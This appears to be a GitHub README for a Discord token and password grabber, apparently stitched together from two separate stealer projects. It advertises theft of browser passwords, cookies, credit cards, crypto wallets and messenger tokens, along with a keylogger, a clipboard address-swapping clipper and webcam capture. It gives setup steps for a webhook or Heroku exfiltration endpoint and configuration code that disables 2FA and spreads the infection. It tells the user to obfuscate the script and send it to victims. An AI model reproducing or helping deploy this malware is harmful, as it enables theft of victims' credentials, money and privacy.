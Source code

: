 # Discord-Image-Token-Password-Grabber-Exploit-Cve-2022

AntiAnalysis (VirtualBox, SandBox, Debugger, VirusTotal, Any.Run)

![image](https://user-images.githubusercontent.com/106811566/171860372-4db82642-365a-4a78-a9ca-ea6171ab179d.png)


Get system info (Version, CPU, GPU, RAM, IPs, BSSID, Location, Screen metrics, Installed apps)

Chromium based browsers (passwords, credit cards, cookies, history, autofill, bookmarks)

Firefox based browsers (db files, cookies, history, bookmarks) Internet explorer/Edge (passwords)

Saved wifi networks & scan networks around device (SSID, BSSID) s File grabber (Documents, Images, Source codes, Databases, USB)

Detect banking & cryptocurrency services in browsers

Steam, Uplay, Battle.Net, Minecraft session

Install keylogger & clipper

Desktop & Webcam screenshot

![image](https://user-images.githubusercontent.com/106811566/171858268-4f009c5f-ba70-4f63-b02d-8962271020f5.png)


ProtonVPN, OpenVPN, NordVPN s Crypto Wallets

Zcash, Armory, Bytecoin, Jaxx, Exodus, Ethereum, Electrum, AtomicWallet, Guarda, Coinomi, Litecoin, Dash, Bitcoin

Crypto Wallet Extensions from Chrome & Edge Binance, coin98, Phantom, Mobox, XinPay, Math10, Metamask, BitApp, Guildwallet, iconx, Sollet, Slope Wallet, Starcoin, Swash, Finnie, KEPLR, Crocobit, OXYGEN, Nifty, Liquality, Auvitas wallet, Math wallet, MTV wallet, Rabet wallet, Ronin wallet, Yoroi wallet, ZilPay wallet, Exodus, Terra Station, Jaxx.

Messenger Sessions, Accounts, Tokens Discord, Telegram, ICQ, Skype, Pidgin, Outlook, Tox, Element, Signal

Directories structure Filezilla hosts Process list Product key Autorun module

🎹 Keylogger: The keylogger will turn on if the user is texting in the chat or using the bank's website.

📋 Clipper: Clipper turns on and replaces crypto wallet addresses in the clipboard when a user makes a transaction.

📷 Webcam screenshots: Webcam screenshots will be taken if the user is watching something obscene on the Internet.


# Features
 - No local caching
 - Transfers via Discord webhook
 - Searches for authorization tokens in multiple directories (Discord, Discord PTB, Discord Canary, Google chrome, Opera, Brave and Yandex)
 - No external Python modules required
 - \[**todo**\] Cross-platform support

<br>

# How to use
 1. Create a webhook on your Discord server. I recommend creating a new server.
 2. Change the 'WEBHOOK_URL' variable value to your Discord webhook URL in [token-grabber.py](token-grabber.py)
 3. *(obfuscate the code or install it as a backdoor in an other script.)*
 4. Send the script to your victim and make them run it.
# Features
* Steal Discord info
  * Username
  * E-mail
  * Phone Number
  * Nitro Type
  * ID
* Steal Discord token
  * Discord
  * Discord PTB
  * Discord Dev
* Steal Discord Password : When you change password & When you change e-mail & When you log-in in your discord account
  * Discord
  * Discord PTB
  * Discord Dev
  

# How to use

## #1 : API Hosting

### Method 1 : (require a vps)

Open port 80

Install Apache2 : 
```
$ sudo apt-get update
$ sudo apt-get install apache2
```

Test server : 

```
$ curl urserverurl
```

Configure Firewall :
```
$ sudo ufw allow 'Apache'
```

Verify the change :
```
$ sudo ufw status
```

Install API :
```
$ git clone https://github.com/Stanley-GF/api.git
```

Configure port & ip in the main index.js
```
$ cd api
$ nano index.js
```

Configure webhook url : 
```
$ cd api/endpoints
$ nano index.js
```

Your API URL gonna be : 
http://your-vps-ip/api/v1/send (replace your-vps-ip by ur real vps ip, obviously)

### Method 2 : Heroku (the best for beginner)

* Start https://heroku.com
* Signup an account
* Create an app
* Fork https://github.com/Stanley-GF/api on your github account
* Go in endpoints -> index.js -> edit and replace the webhook url by your webhook url
* Go in https://dashboard.heroku.com/apps/ , click on your app, go in "deploy" category
* In deployment method, select Github, login in your github account by authorize OAuth thing -> in App Connected, type "api" and select your project
* Enable "Automatic Deploy"
* press on Deploy Branch
* your server url gonna be : https://your-app-name.herokuapp.com/api/v1/send (replace your-app-name by ur real app name, obviously)

## #2 : Your .exe

* Download src of this project
* Open project
* Go in settings.cs and configure option : 

```cs

public static bool disableMfa = false; // disable 2FA 

public static bool restartDiscord = true; // restart discord after injection

public static bool spread = true; // ALWAYS TRUE : (for infect client)

private static string serverurl = "https://your-app-name.herokuapp.com/api/v1/send"; // replace "your-app-name.herokuapp.com/api/v1/send" by your api url

public static string Url = "https://cors-anywhere2.herokuapp.com/" + serverurl; // don't tuch.
```

* Compile the project
* Go in `\HS-Grabber\HS-Grabber\bin\Debug`
* Send the .exe to victims ! 

# Some screenshot of the grabber

![yay](https://cdn.discordapp.com/attachments/797933407476777012/798145821203628052/unknown.png)
